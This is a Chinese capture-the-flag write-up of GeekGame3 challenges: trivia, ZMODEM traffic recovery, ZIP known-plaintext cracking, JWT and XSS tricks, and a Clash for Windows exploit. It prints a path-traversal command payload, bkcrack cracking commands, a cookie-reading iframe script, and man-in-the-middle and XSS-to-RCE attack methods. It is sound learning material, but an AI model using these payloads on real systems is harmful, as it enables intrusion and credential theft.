

# GeekGame3 个人题解/复盘（Writeup）
参赛ID：Lysithea
分数：3886
[TOC]

## misc+tutorial
### 一眼盯帧（签到）
用一个支持逐帧查看GIF的图片浏览器（我用的HoneyView），把每帧上的字符逐个抄下来，是一串英文乱码synt{jrypbzrarjcynlref}。考虑到题面说答案是有意义的英文（以及签到题的难度），首先尝试的是最常用的凯撒密码（字母移位加密），移动13位即可解出flag{welcomenewplayers}

历年最简单签到题（确信）
### 小北问答（信息收集）
今年不搞花里胡哨的了，挺好的。

1. 北大HPC的非交互式提交任务的方式

访问hpc官网的[使用教程](https://hpc.pku.edu.cn/_book/guide/slurm/sbatch.html)，提交作业章节，提到了sbatch运行作业，和salloc交互运行作业。虽然没有明说，但是sbatch应该就是非交互式的。

2. Redmi K60 Ultra开源的Linux内核版本号

卡最久的题。首先在搜索Redmi K60 Ultra open source Linux kernel能搜到小米的github仓库，master分支下能看到各个开源版本的汇总表，最后一行能看到K60 Ultra的分支名称是corot-s-oss。切到这个分支，点开commits，发现只有最新的commit来自小米，前面的都是上游项目的。

Linux内核版本在项目的主Makefile文件开头，几个环境变量的定义中，分别是x,y,z版本号。之所以能确信这是版本号，其实还和下面踩的坑2有关。

```Makefile
# SPDX-License-Identifier: GPL-2.0
VERSION = 5
PATCHLEVEL = 15
SUBLEVEL = 78
EXTRAVERSION =
NAME = Trick or Treat
```

这题踩了两个坑浪费了相当多时间
- 尝试根据tag名t-alps-release-t0.mp1.tc8sp2-V1.14和来源mtk(mediatek，也是一家手机公司)，去寻找他们的开源代码，但是没找到这个tag对应的release（而且说实话就算找到了也大概率不会解决问题，除非他们把kernel version直接写在readme里）
- 如果没注意到只有最新的一个commit来自小米，往前翻到大概[9800+个commit](https://github.com/MiCode/Xiaomi_Kernel_OpenSource/commits/cb2ab59a621b17aafa4a3f349c84d9f18adf7aaf?before=cb2ab59a621b17aafa4a3f349c84d9f18adf7aaf+9850&branch=cb2ab59a621b17aafa4a3f349c84d9f18adf7aaf&qualified_name=cb2ab59a621b17aafa4a3f349c84d9f18adf7aaf)，会看到一个地方突然commit格式变得自由散漫了起来，还有个超明显的`Linux 5.15.31`，当时以为这就是红米从Linux Kernel继承的原点。实际上，MTK的Android内核本身也是基于Linux的魔改，也是需要开源的，这个可能是MTK项目组从Linux Kernel继承的commit。


3. Apple Watch Series 8 蜂窝 41mm 内部识别号

直接搜这些关键词和 Identifier，在[github gist](https://gist.github.com/adamawolf/3048717)有人统计了这些数据，可以直接查到。Cellular是蜂窝的意思，这里应该是指类似4G流量这样的蜂窝网络技术。

4. 被平台ban掉的用户昵称可用字符总数

正确解法是去xmcp老师开源的guidingstar比赛平台的github仓库里找源码。注意这个平台分为前端后端，我们找的显然是[后端的python代码](https://github.com/PKU-GeekGame/gs-backend/tree/)。看看commit，按题面要求找到10.1的commit，一番寻找找到平台用户信息设置相关的代码，即[`src/store/user_profile_store.py`](https://github.com/PKU-GeekGame/gs-backend/blob/abbbbb7222052fd8d15a5a4b6b802847eeaf95af/src/store/user_profile_store.py)

很显然平台代码的大部分逻辑可以直接搬下来在本地运行，只需要把一些不必要的依赖去掉就行了（不过有个unicategories的库感觉可能会影响结果，我自己安装了）。然后就如提示所说，不同版本运行结果是不一样的。在平台Readme里提到Python的最低版本是3.8，于是我就在自己的anaconda上用3.8-3.12所有大版本都跑了一遍，结果是3.12是4636个，3.11是4587个，3.10/3.9是4472个，3.8是4445个。我是从新版本到旧版本开始试的，很不幸的生产环境用的是最旧的版本，笑死。

PS：能想到平台开源这点也是因为赛前刷比赛群，xmcp老师发了一个有人扫平台的截图，然后说了一句【平台都开源的，想扫的话这边建议本地慢慢扫呢】，笑死

PPS：其实平台的昵称前端那里还是有BUG。如果名字带【ℒ𝓎𝓈𝒾𝓉𝒽ℯ𝒶】这样的Unicode花体字母，实际上一个字符是占两个字符位置的，但是总字符数显示还是按一个字符算的，这就导致我这个ID只能再额外写4个字符就输不进去了，但是显示字符数还是12/20。应该不是安全问题（……吧？）

5. 2011.1年Bilibili游戏区下的子分区

看到题面第一想到的是archive.org，很不幸的是2011.1虽然有一个条目，但是却提示Directory Listing Denied。然后灵感乍现，莫非这个时候bilibili还叫mikufans？于是去中文维基百科上搜索bilibili的历史，意外发现b站在这个时候的域名是bilibili.us，（mikufans是2009年，2011.6改成bilibili.tv，而2014.9才改成.com域名的）

用bilibili.us在archive.org上搜索，你会发现2011年这段时间快照其实非常多，随便点进去一个，找到[游戏区链接](https://web.archive.org/web/20110102140319/http://bilibili.us/video/game.html)，最上面就可以看到所有分区了。（我猜很多人的第一反应是：怎么这么少？这真的是所有的了吗？）

6. 照片中建筑物的官网域名？

GeekGame第一次出OSINT照片开盒题？拿下来首先看元数据，时间戳很新，所以不排除最近修改的可能性，EXIF等等信息也被抹掉了。然后尝试直接用Google Lens截取图片背景部分（没被旗子遮挡的部分）进行搜索，直接搜出了卢森堡音乐厅，对应官网是philharmonie.lu。这其实就是正解，这样特征明显的大型建筑物不太可能会有第二个。

一开始我还不太信，因为这个前景的赞助商怎么看都是科技公司，应该和音乐厅扯不上关系？所以尝试通过赞助商名字搜索对应的会展名称，没得到特别可靠的结果。最后还是关注到背景小货车上的文字，尽管被树遮挡了一部分，剩下的好像是sound.lu字样，恰好卢森堡国的顶级域名也是lu，这就交叉验证了，这个建筑物确实就是卢森堡音乐厅。

### Z公司的服务器（zmodem, jpeg格式）
（flag2解了一半）

这题给了一个流量包和一个终端。流量包里只有一个会话，是192.168.23.179和192.168.16.1双端通信，全部是TCP协议的流量。比较明显的特征是，有个前者（服务端）发送给后者（客户端）的带flag.jpg字符串的包，和一个有大量数据的包，里面能找到jpeg文件头ffd8和文件尾ffd9，所以这应该是客户端向服务端发起的一次文件请求下载过程。

这时候再看终端，就会发现远端返回的报文和流量包里服务端的一模一样。我们可以把流量包里发送的流量重放一次，这次得到的不再是图片文件，而是明文的flag1，镶嵌在前后位置的协议头尾之间。

flag1明文传输是一个很重要的信息，这意味着我们可以把流量包里ffd8到ffd9之间的数据复制出来（更好的是这两个标志都只出现过一次），这一定包含了完整的flag.jpg的信息。但是dump出来之后，会发现图片无法打开，用010 Editor查看会发现除了ffd8以外其他所有section全部对不上，文件中包含了大量的18字节和4X字节，这明显是不正常的。

```
00000000  ff d8 ff e0 18 40 18 50  4a 46 49 46 18 40 18 41  |.....@.PJFIF.@.A|
00000010  18 41 18 41 18 40 60 18  40 60 18 40 18 40 ff db  |.A.A.@`.@`.@.@..|
00000020  18 40 43 18 40 18 42 18  41 18 41 18 42 18 41 18  |.@C.@.B.A.A.B.A.|
00000030  41 18 42 18 42 18 42 18  42 18 42 18 42 18 42 18  |A.B.B.B.B.B.B.B.|
00000040  42 18 43 18 45 18 43 18  43 18 43 18 43 18 43 18  |B.C.E.C.C.C.C.C.|
```

文件第一个非正常段是ffe0，即APP0，这个段包含了一个JFIF字符串，但是会发现它的位置似乎不对，如果把所有18都去掉就对了，此外JFIF应该以`00`结尾，但是这里确实`18 40`，到这个时候，差不多也该猜到18其实是类似转义符的作用，不会占有位置，而是会把后面的字符减去0x40。类似的过程，我们会发现0x18会出现在0x40-0x5f, 0xc0-0xdf, 0x69这些字符的前面。处理这些转义之后，我得到的是下面这张图。


虽然能打开但就像被磨坏了的CD一样。jpeg之所以会出现这种情况，是因为其并非按像素存储，而是采取霍夫曼编码，每个数据字节影响的不只是一个像素，所以文件中是存在一些坏数据需要处理的。这可能说明我的程序还有BUG/我对协议的理解有误。（如果其他人做出来的也是这种坏图，我在想有没有拼图大师能把flag给拼出来）

另外，我在一阶段就查到了这种协议被称为ZMODEM，毕竟0x18转义是个鲜明的特征，很容易搜到。虽然协议上说的异或0x40，我个人认为和我这里的处理是等价的，因为0x18事实上没有出现在任何bit6=0的字符前面。写这个writeup的时候我在想，是不是可以用pwntools建立一个伪造的服务端，用一个真正的ZMODEM客户端连接它请求flag.jpg文件，通过重放服务端流量的方式，在客户端直接得到原始文件？似乎比手搓协议要更不容易出BUG。

PS：我一开始对这个题面的语文理解出了偏差，我以为flag1是黑客的方法，所以我是在用pwn的视角理解第一问的，看到周期性报文和返回那么多数据还以为是某种heartbleed。

### 猫咪状态监视器（shell源码阅读，python格式化字符串）
打开python服务端脚本，很容易发现STATUS的输入格式化字符串没有做必要的检查：
```python
cmd = "/usr/sbin/service {} status".format(service_name)
```
尽管这个题是在shell=False环境下执行的，后面这些只会作为service的参数，但输入空格仍然可以同时控制多个参数位置。

接下来从Python角度没思路了，去看看service文件，这实际上是一段shell脚本。看manual我们知道，它实际上是用来执行`/etc/init.d`下方脚本的一段语法糖。我们比较关心参数处理部分，几个要点：
```sh
while [ $# -gt 0 ]; do
  case "${1}" in
    ...
  *)
    ...
    elif [ -z "${SERVICE}" ]; then
        SERVICE="${1}"
    elif [ -z "${ACTION}" ]; then
        ACTION="${1}"
    else
        OPTIONS="${OPTIONS} ${1}"
    fi
    shift
    ;;
    esac
done
```
这里shift指令是抛弃第一个参数，把后面参数往前挪。这里的逻辑就是，把第一个参数作为SERVICE，第二个作为ACTION，其他的全部作为OPTIONS放在后面，因此通过插入空格我们可以控制ACTION参数。
```sh
run_via_sysvinit() {
   # Otherwise, use the traditional sysvinit
   if [ -x "${SERVICEDIR}/${SERVICE}" ]; then
      exec env -i ... "$SERVICEDIR/$SERVICE" ${ACTION} ${OPTIONS}
   else
      echo "${SERVICE}: unrecognized service" >&2
      exit 1
   fi
}

case "${ACTION}" in
        ...
    *)
    # We try to run non-standard actions by running
    # the init script directly.
    run_via_sysvinit
    ;;
esac
```
这就发现，当ACTION并非预定义的几个标准选项时，service会认为这是自定义的action而运行`/etc/init.d/{SERVICE} {ACTIONS} {OPTIONS}`，而这里对可执行文件路径是直接的简单拼接，因此可以直接用`../../../`绕过。最终payload为`../../../../bin/cat flag.txt`

### 基本功（ZIP已知明文攻击）
这个题考的是ZIP已知明文攻击，不过我也是看了这篇[博客](https://www.freebuf.com/articles/network/255145.html)才知道原来不需要知道整个文件，只需要总共12个已知字节和位置（其中8个连续）就可以爆破出密钥（并非解压密码，但文件可以用密钥解密提取）。使用的工具为[bkcrack](https://github.com/kimci86/bkcrack)，其实两个flag攻击方法都在那篇博客里写了。CPU比较好的话可能跑出密钥就几分钟。

第一个zip里包含一个名为chromedriver_linux64.zip的文件名，很明显这个zip是从[ChromeDriver官网](https://chromedriver.chromium.org/downloads)上下载的，尽管我们并不知道这个压缩包里是哪个版本，但是zip压缩包的文件头里会存储压缩包的文件名，并且是固定位置。值得注意的是，因为可以压缩之后改名，而压缩文件里存储的应该只是被压缩时的文件名，两者不一定相同，所以最好是下载一个版本看一下。可以用的文件名是chromedriver（连续12字节），但是不包含linux64后缀。

第二个zip里只有一个flag.pcapng流量包，可以用[pcapng协议](https://pcapng.com/)里提到的block头中，blocklength高2位起，byteorder magic, Major version, minor verision, section length, 共计18字节已知明文。得到的流量包里也能找到明文的flag2。

exp：
```sh
# flag1
echo -n chromedriver >plain1.txt
./bkcrack-1.5.0-win64/bkcrack.exe -C challenge_1.zip -c flag1.txt -p plain1.txt -o 30
bkcrack-1.5.0-Linux/bkcrack -C challenge_1.zip -c flag1.txt -k 66b9e8a6 35c9b17f eb1f8fab -d flag1.txt
# flag2
echo -n 00004D3C2B1A01000000FFFFFFFFFFFFFFFF | xxd -r -ps>pcap_plain
bkcrack-1.5.0-Linux/bkcrack -C challenge_2.zip -c flag2.pcapng -p pcap_plain -o 6
bkcrack-1.5.0-win64/bkcrack -C challenge_2.zip -c flag2.pcapng -k 1fd5d830 377b4c6d 8b05e89f -d flag2.pcapng
```

### DarkRoom（报错源码泄露，时间盲注）
经典的终端AVG，流程很短，也不太容易死。为了防止迷路建议走一步画一步地图


flag1要求到达终点时san值高于117%，如果按最优流程把道具全用了走到终点门口是90%的san，而根据源码`player.py`中部分内容可知，使用help命令有2/10的概率净增9点san值（10点增加+每回合1点损耗），因此只需要连续4次增加就可以达到通关条件，概率为1/625，考虑到终端3s一次连接（实际上考虑到建立连接和传输的时间大概5s的时间比较合理），1个小时内基本上就能roll到运气比较好的一次成功通关。

flag2需要进入所谓flag room进行getflag操作，然后程序二话不说开始让我们猜public key。这里偶然发现，当输入非数字时，会报出int类型转换错误，在终端打印出报错信息，leak出部分源码：
```python
invalid literal for int() with base 10: 'a'
Traceback (most recent call last):
    File "dark_room/player.py", line 249, in <module>
    248:   while flag_number:
    249:      choice = int(self.recv(b"Guess my public key (give me a number): ").decode())
                    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
    250:      if flag_number & 1:
    251:          p = getStrongPrime(2048)
    252:          q = getStrongPrime(2048)
    253:      flag_number >> 1
ValueError: invalid literal for int() with base 10: 'a'
```
进入二阶段之后，我才意识到这么一小段代码已经包含了足够的信息。首先，循环变量flag_name每次都会右移一位，而最终flag_name会移位为0而退出循环。另外，flag_number末位为1时，程序会执行两次`getStrongPrime(2048)`函数，这个函数应该来自`Crypto.Util.numbers`，生成这样大的随机质数需要显著长的时间，这就导致flag_number末位为1和为0时，终端返回数据的时间会有显著的不同（前者一般需要1s，后者在0.01s）。因此，考虑到flag_number在循环中不断右移，我们可以通过不断测量时间获得flag_number的每一位。把flag_number转换为int再转换为bytes，会发现这些bytes就是flag2的ASCII明文。

这种leak方法好像sqli里的时间盲注啊

### Minecraft（？）
这个题我其实没什么好说的，我只做了第一问，我真的是来玩游戏来的，最近刚好开荒了1.18.2的群峦传说mod，电脑上有现成的HMCL客户端。

加载附件的存档文件打开地图之后，提示我们找钻石块。试了一下作弊指令和mod都可以用，用`/gamemode creative`可以无限拿物品和飞行，`/gamemode spectator`更是可以直接穿墙。一路跟着火把，找到地底岩浆区的钻石块，木牌子上就写着flag1。（大概看了下地图做的挺不错，要不是比赛任务重我真的会正常地玩到通关）

我猜这个题是Linux俱乐部的某二级组织友情提供的。所以贵校Minecraft社什么时候成立呢（

## Web
### Emoji Wordle（HTTP无状态, JWT）
在开始打flag之前，我们首先可能需要一个emoji字符列表，可以从[http://unicode.org/Public/emoji/3.0/emoji-data.txt](http://unicode.org/Public/emoji/3.0/emoji-data.txt)这里找到，写一个简单的脚本把对应的范围dump出来

此外，由于HTTP是无状态协议，要实现这样的游戏，要么在前端判断（那样可以直接在前端改逻辑，是另一个故事），要么要通过cookie/session。这个题的网页cookie是JWT，分为head, body, key三部分，其中head记录了协议、加密（通常是HS256）等信息，body是数据本身，这两者都是base64编码后做一些字符替换，最后secret会包括一些验证信息。

flag1的JWT中，只包含了尝试次数，同时题面也说了答案是固定的，因为EMOJI总数本来就不多，暴力枚举并不困难。一个策略是，先64个不同的emoji为一组试探出结果的字符集，然后用64个相同的emoji爆破位置。一个trink是，我用的requests库，如果访问不带cookie，那剩余次数永远都是63次。

flag2更简单，因为JWT里直接存储了结果的明文。
```json
{"alg":"HS256"}
{"data":{"level":"2","remaining_guesses":"8","target":"\uD83D\uDC55\uD83D\uDC67\uD83D\uDC74\uD83D\uDC7D\uD83D\uDC64\uD83D\uDC63\uD83D\uDC85\uD83D\uDC88\uD83D\uDC68\uD83D\uDC76\uD83D\uDC74\uD83D\uDC87\uD83D\uDC54\uD83D\uDC73\uD83D\uDC76\uD83D\uDC7A\uD83D\uDC86\uD83D\uDC86\uD83D\uDC74\uD83D\uDC78\uD83D\uDC88\uD83D\uDC7E\uD83D\uDC42\uD83D\uDC5C\uD83D\uDC56\uD83D\uDC6A\uD83D\uDC58\uD83D\uDC42\uD83D\uDC73\uD83D\uDC7E\uD83D\uDC61\uD83D\uDC78\uD83D\uDC5B\uD83D\uDC88\uD83D\uDC61\uD83D\uDC7D\uD83D\uDC84\uD83D\uDC77\uD83D\uDC79\uD83D\uDC82\uD83D\uDC43\uD83D\uDC43\uD83D\uDC7A\uD83D\uDC43\uD83D\uDC46\uD83D\uDC69\uD83D\uDC81\uD83D\uDC86\uD83D\uDC66\uD83D\uDC80\uD83D\uDC73\uD83D\uDC89\uD83D\uDC43\uD83D\uDC68\uD83D\uDC40\uD83D\uDC88\uD83D\uDC5D\uD83D\uDC7E\uD83D\uDC46\uD83D\uDC81\uD83D\uDC7B\uD83D\uDC58\uD83D\uDC63\uD83D\uDC48"},"nbf":1697278093,"iat":1697278093}
```

flag3在JWT存了一个seed字段，因而我们判断服务器远端是用这个seed来生成答案的。尽管尝试次数只有3次，但是请求一次拿到cookie之后，只要后续一直拿同一个cookie请求，剩余次数就永远是2次了，而且seed不变，退化到第一问，用相同脚本爆破即可。
```json
{"alg":"HS256"}
{"data":{"level":"3","start_time":"1697278331515","remaining_guesses":"3","seed":"9.353972814870084E11"},"nbf":1697278331,"iat":1697278331}
```

看看我的[exp](./emoji/guess1.py)

### 第三新XSS（CORS同源策略）
只做了第一问，xssbot会先访问admin的页面，设置cookie，再访问我的页面。通过iframe等方式，我们可以在自己的页面中嵌入admin的页面，那么xssbot在访问时就会带上cookie。一般来说，由于浏览器同源策略，随意iframe一个其他域名/端口/协议的网站是拿不到它的cookie的（不然就乱套了，cookie零元购）。但是同一个域名内部的恶意网页，同源策略默认大家都是自己人，就不会阻止访问，相当于少了一层保护。一般这个问题正确处理方法是设置cookie为`httponly`限制Javascript读取，或者用不同的子域名实现跨域。

二阶段的提示是

```html
<iframe src="/admin" id="admin"></iframe>
<script>
window.onload=()=>{
    var ifr = document.getElementById('admin');
    document.title = ifr.contentDocument.cookie;
}
</script>
```

### 非法所得（Clash for Windows, Clash配置, 漏洞复现）
本届比赛最喜欢的一道题，打穿之后感觉背后一凉，我本人也算是Clash For Windows (CFW)的重度用户，没想到这个项目的安全性这么离谱。这个题的Writeup我希望能给非专业人士科普来龙去脉，所以会写的很长，请谅解。

#### 关于Clash, Clash for Windows

在正式开始之前，我有必要讲一下Clash和Clash For Windows的一些基本信息。众所周知，Clash是一个基于go语言的代理软件，会在本地开一个端口监听代理请求（实际上是多个，但我们一般只用mix port 7890）。接收到代理后，Clash可以通过自定义的规则`rules`（例如域名包含某个后缀`DOMAIN-SUFFIX`，或者IP满足某个网段`IP-CIDR`），决定这个请求是直连`DIRECT`还是走某个代理`proxies`。有时候，对于某些匹配条件我们希望在某些代理选项中手动/自动选择，因此Clash引入了`proxy-groups`，可以把规则指向一个group，并且可以通过一个内建的RESTful API（视情况，一般会开在9090端口）控制选择。另外，为了避免用户需要手动配置大量代理（方便代理商卖梯子给电脑小白），Clash还提供了`proxy-providers`功能，可以从本地或者远程的yaml文件一次性批量导入代理到某个`proxy-groups`。需要强调一点，Clash是一个纯命令行的程序，而Clash的控制只来自内建的RESTful API（即没有前端网页）。


Clash For Windows是为Clash包装的图形界面前端，本质是一个Clash配置文件的管理器。它本身是基于electron框架（我自己没深入了解，但应该可以看成浏览器+nodejs的结合），因而可以跨平台在Linux使用。作为前端它最主要的功能是可以在`Profiles`页面同时管理多套文件，同时在`Proxies`界面提供了方便的GUI操作代理的选择（后端是在调用Clash RESTful API）。CFW还有些更进阶的功能，比如用`parsers`在原有（通常是远端从代理商那里获取的）配置文件中动态添加项目，甚至执行nodejs代码来进行规则匹配识别，不过这个题不太涉及。CFW也有一个配置文件，即`$HOME/.config/cfw-settings.yaml`，包含的是用CFW管理Clash配置文件的信息，比如mixin，parser等等。**Clash原本是开源软件，底层是go。但是Clash后来衍生出了一个闭源的Clash Premium版本，引入包括rule-provider等新的功能。Clash for Windows是基于Clash Premium的GUI客户端，底层是electron框架，一个基于浏览器+nodejs的跨平台桌面应用**。这个继承关系还是很重要的，因为我们这里要打的是实际上CFW的漏洞，不涉及Clash内核本身，引入的恶意配置从Clash的角度看都是合法的。

以上所有配置信息的说明和语法，都可以在[Clash](https://dreamacro.github.io/clash/)和[Clash For Windows](https://docs.cfw.lbyczf.com/)的官方文档中找到。如果这些讲的有点抽象了，我在BBS上曾发过一个帖子，讲如何在CFW配置parser，自动修改Clash配置文件让仅内网地址走北大VPN的openconnect代理，可以参考一下：[https://bbs.pku.edu.cn/v2/post-read.php?bid=668&threadid=18595480](https://bbs.pku.edu.cn/v2/post-read.php?bid=668&threadid=18595480)。另外如果你是WallessPKU用户，它的配置文件就是最好的学习材料，本题所有用到的配置语法在那里都能找到（尤其是`proxy-providers`的使用）

#### 题面环境分析

这个题的源码多到我需要给一个树才好说清楚：
```
├── Dockerfile
├── app
│   ├── cfw
│   │   ├── ... # not important
│   ├── conf.d
│   │   ├── cfw.conf
│   │   ├── openbox.conf
│   │   ├── ui.conf
│   │   ├── websockify.conf
│   │   ├── x11vnc.conf
│   │   └── xvfb.conf
│   ├── entrypoint.sh
│   ├── prepare_flag.mjs
│   ├── profiles
│   │   └── flag.yml
│   ├── readflag.c
│   ├── supervisord.conf
│   └── ui
│       ├── index.mjs
│       ├── package-lock.json
│       ├── package.json
│       └── static
├── cfw-settings.yaml
└── flags
    ├── flag
    ├── flag_easy
    └── flag_veryeasy
```

本题线上环境包括三个主要模块，。第一个是用noVNC传输的CFW图形界面，但只有有限的控制，可以看主页，proxies，profiles，在profiles可以导入远端yaml配置文件，CFW的控制是用puppeteer实现的（别忘了electron也是浏览器）。导入的过程有外网环境。


另一个是puppeteer控制的chrome浏览器，可以输入并访问网址。这个puppeteer也是有外网环境的。


这两个后端受同一个前端服务器控制（nodejs-fastify），源码中相当多的部分是`puppeteer`如何控制noVNC和CFW的细节，但是也包含了这两处输入URL的过滤处理：
```javascript
// clash import和chrome visit都调用
async function checkUrl(url, test = false) {
  const u = new URL(url)
  if (!['http:', 'https:'].includes(u.protocol)) {
    throw new Error('Invalid URL')
  }
  if (test) {
    await fetch(url)
  }
  return url
}
// 只在chrome visit时判断
if (!new URL(url).hostname.endsWith('.pku.edu.cn')) {
    throw new Error('Only PKU website is allowed!')
}
```
可以看出，两种访问都只支持http/https协议，Clash import可以访问任意host，包括127.0.0.1内网host以及任意外网环境（反正校内的固定IP是可以，不知道校外的公网行不行），而Chrome还需要额外判断host结尾是北大域名，我认为多数参赛选手不大可能有一般的北大域名网页的控制权限。但是，不知道这是不是预期解的一部分，只host静态网页的情况下，**隔壁【第三新XSS】的博客系统可以完美绕过第二条限制**，我目前的理解是这是给没有校内IP，不能架服务器的选手留的后门。
（我一开始审计源码看错了，以为clash import也只能访问pku域名，找了半天绕过方式，写WP的时候发现根本没有判断，笑死）

#### flag1：RESTful CORS访问未加载配置（以及可能的非预期）
这个题的flag1是被写入`/app/profiles/flag.yml`中，某个`proxies`的`name`字段，文件本身也是一个合法的Clash config.yaml。
```yml
port: 7890
mode: Rule
log-level: info
external-controller: ":9090"
proxies:
  - name: flag{test}
    type: socks5
    server: 127.0.0.1
    port: 1926
    skip-cert-verify: true
rules:
                   # 👇看看这个，我超〇
  - "DOMAIN-SUFFIX,mihoyo.com,REJECT"
  - "GEOIP,CN,DIRECT"
  - "MATCH,DIRECT"
```
问题在于，这个文件并没有放在前端ui能访问到的位置，而我们不能把URL换成`file://`协议。然而，在能够导入任意配置的情况下，我们可以轻松使用`proxies-provider`功能导入`flag.yml`，因为`proxies-provider`的语法只要求定义了`proxies`列表，显然`flag.yml`也是一个合法的`proxies-provider`，而flag就在其中。

[exp](./cfw/forge_provider.yml)


为什么我觉得这个可能非预期呢，因为flag的内容是Clash CORS is Unsecure，这很明显指的是Clash的RESTful API，即用来控制代理配置的HTTP服务接口。而我不认为这里涉及到了任何CORS相关内容。我猜预期解法应该是：Clash的import过程能执行JS代码，而通过在JS代码中，跨域（端口）请求Clash的RESTful API，这时可以使用GET以外的方法对Clash配置进行修改，通过`/providers/proxies`添加`proxies-provider`引入`flag.yml`的代理，然后通过`/proxies`获得代理名，再通过一次`fetch`把得到的数据传递到外部，整个连起来就是一次完整的XSS攻击，可以在一次import里全部实现。


#### flag2：恶意代理 + MITM

事实上我是先做出第二问再做的第一问。flag2出现的位置是：
```javascript
const page = await ctx.newPage()
await page.goto(url.toString())
if (new URL(url).hostname === 'ys.pku.edu.cn') {
// Genshin School of Peking University uses Primogem to pay tuition
    await page.type('#primogem_code[type=password]', flag)
}
await setTimeout(5000)
const screenshot = await page.screenshot({ encoding: 'base64' })
  
```
> 以防读者不知道，primogem=原石

当访问的URL是`ys.pku.edu.cn`时，会在HTML中寻找ID为`primogem_code`，包含`type=password`属性的元素（有这个type基本就是input tag，作为密码框），输入flag，在五秒后返回网页截图。

当然PKU并没有YS学院，DNS服务器也不会解析这个域名。但是，当对这个域名的访问进入网关之前，它首先会进入Clash的规则处理。如flag1所述，既然我们已经能从外部引入任意yaml配置了，那么我们事实上可以定义规则，让ys这个域名指向一个我们能够控制的端口，之后就可以伪造HTTP报文，给浏览器一种我正常访问了YS网站的假象。这种代理在中间篡改报文的行为，被称为中间人攻击（man-in-the-middle attack）。如果打个比方，把HTTP协议当成A和B之间互相写信的过程，那么使用代理就好比是A把信交给了一个邮递员C，让C帮忙送信；而现在的情况就是C拿了A的信之后，非但没有送给B，反而自己写了一封假的送给A，还骗A说这是B送来的信。

写WP的时候想到，如果要省点事的话，可能直接用mitmproxy这种中间人攻击的代理服务器。但是我在比赛的时候，实际上是自己用pwntools手搓了一个代理的（flask不支持CONNECT方法，很可惜）。HTTP代理的报文我是通过对自己电脑上7890端口抓包来学习的，大致来说是这样：
```http
==== local => proxy ======
CONNECT ys.pku.edu.cn HTTP/1.1
==== local <= proxy ======
HTTP/1.1 200 Connection Established
==== local => proxy ======
GET / HTTP/1.1
==== local <= proxy ======
HTTP/1.1 200 OK
... any content ...
```
那么很简单的，当收到CONNECT头的请求时，返回Connection Established响应头，之后再收到普通的HTTP报文，直接回应就可以了。因为Chrome访问能看到回显，做一个setTimeout，在受害者输入flag之后用一段js把`primogem_code`的`value`传给随便一个什么可以显示明文的元素就可以了。

当然这个攻击需要有校内IP，我确实是有现成的，只是pwntools是跑在Win10 WSL2上，所以打开Windows防火墙之后还得SSH端口转发一下才能成功把pwntools的监听端口暴露出来。我现在还没想明白校外无公网IP要怎么打这个题。

[手搓代理服务器](./cfw/test_proxy.py)和[恶意代理yaml](./cfw/forge_provider.yml)（yaml和flag1的合并了，可以通用）



#### flag3：恶意配置 + RCE
flag3位于根目录下，并且被设置了root只读，同时编译了一个getflag的C程序，设置了为suid可执行权限（suid意思是，每其他用户可以执行这个程序时，会自动以属主，也就是root的身份执行，因而对`/flag`文件可读），因此我们只要能够运行`/app/getflag`程序就能读取flag，这需要一个远程代码执行（Remote Code Execution，RCE）漏洞。

有一个很重要的信息没有用到，就是主页上能看到CFW的版本号0.19.8。如果去看Github相关的Release，会发现0.19.10是一个关于XSS漏洞重大安全更新，0.19.9也提到了对XSS漏洞的修复，这个[issue#2710](https://github.com/Fndroid/clash_for_windows_pkg/issues/2710)一点进去就是一个远程代码执行的报告。而且0.19.8-0.19.9只隔了三四天，0.19.9和0.19.10甚至就是同一天，看来是很快就被发现也很快就被修复了，但恰好题目环境就是这个版本。于是这个题目就变成了一个漏洞复现题。


XSS即跨站脚本攻击，一般出现在浏览器里，简单来说就是攻击者可以控制网页部分内容时，可以向其中注入恶意javascript脚本，导致其他人访问这个网页时在自己浏览器上执行恶意代码。具体到这个漏洞，exploit大概长成这样。

```yaml
proxies:
  - name: a
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
proxy-groups:
  -
    name: 
    type: select
    proxies:
    - a
```
从Clash的角度来看，这当然是非常正常非常合法的一段配置，虽然代理和代理组的名字有点奇怪，但名字长度并没有限制，而这些也都是合法的字符。但是，一旦我们要用CFW把这些代理名字渲染成图形界面，electron框架就会把这些当成图片（img标签）渲染，并且这些图片定义了onerror回调函数，即当图片加载失败时，就会运行后面的javascript代码。（这里其实隐含了一个触发条件，那就是这些代码只有在被渲染时才会执行，因此导入配置后需要切换到proxies页面。在我尝试过程中这一点造成了我几次失败）

XSS当然是一种很常见威胁很大的漏洞，但是因为浏览器不能访问本地文件，不能访问系统shell，甚至javascript访问资源还受同源策略的限制，所以给我留下一种XSS的影响面很弱的印象，虽然会泄露隐私，但并不会导致对设备的完全控制。但是，在electron框架下，Javascript的代码执行是交给nodejs的，而nodejs对于非专业人士你可以理解为Javascript版本的Python，就像Python的`open`和`import os`一样，用`require("fs")`可以读写文件，用`require("child_process")`可以执行系统shell命令。这种情况下XSS的杀伤力就非常恐怖了，一个XSS就可以进行系统级别的RCE，利用成功后甚至可以反弹shell实现不依赖于CFW持久的控制。

具体到这个题来说，主要有两个问题，第一是我们的payload中包含`/`，对于HTML语言来说这和空格一样会被当成两个属性之间的分隔符。第二个问题是，我们执行的代码返回了结果，我们还需要把这个结果送到一个我们能获取的地方，比如Clash的界面上，或者我的某个远程服务器的日志里。

